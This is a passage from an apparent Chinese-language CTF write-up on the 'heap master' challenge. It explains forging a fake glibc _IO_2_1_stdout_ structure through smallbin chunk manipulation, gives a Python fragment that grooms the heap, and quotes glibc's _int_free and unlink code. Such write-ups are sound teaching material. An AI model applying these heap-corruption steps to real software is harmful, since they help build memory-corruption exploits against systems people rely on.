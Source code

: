 ```c
	= _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
      if (new_pos == _IO_pos_BAD)
	return 0;
      fp->_offset = new_pos;
    }
  count = _IO_SYSWRITE (fp, data, to_do);
```



在此情況下，是否能透過改變 `stdout` 指向我們能控制的 fake `_IO_2_1_stdout_`?

**以下參考 [balsn writeup](https://balsn.tw/ctf_writeup/20190427-*ctf/#heap-master)**



建構 fake `_IO_2_1_stdout_` 前，由於 member 會有多個 libc address，因此利用構造多個 fake chunk of smallbin，並且 `free` 完後會有 smallbin 的 address，這樣就能有 libc address 來構造 fake `_IO_2_1_stdout_`:

```python
for i in range(0xe):
    edit(0xf8 + i*0x10, p64(0x201))
for i in range(0x10):
    edit(0x2f8 + i*0x10, p64(0x21))
for i in range(0xd):
    free(0x1d0-i*0x10)
    malloc(0x1f0)
```

這邊要 `malloc()` 的原因在於，chunk 必須從 smallbin 中取走，不然 smallbin 的 chunk 串起來時 chunk 的 fd 或 bk 會變成 `mmap()` address，並且做 `unlink` 時會因為 `prev_size` (0x200) 不等於 `chunksize(P)` (0x20) 而壞掉:

```c
static void
_int_free (mstate av, mchunkptr p, int have_lock)
{
    ...
	if (nextchunk != av->top) {
      /* get and clear inuse bit */
      nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

      /* consolidate forward */
      if (!nextinuse) {
		unlink(av, nextchunk, bck, fwd);
		size += nextsize;
      } 
     ...
}

/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr (check_action, "corrupted size vs. prev_size", P, AV);  \
    FD = P->fd;								      \
    BK = P->bk;
```
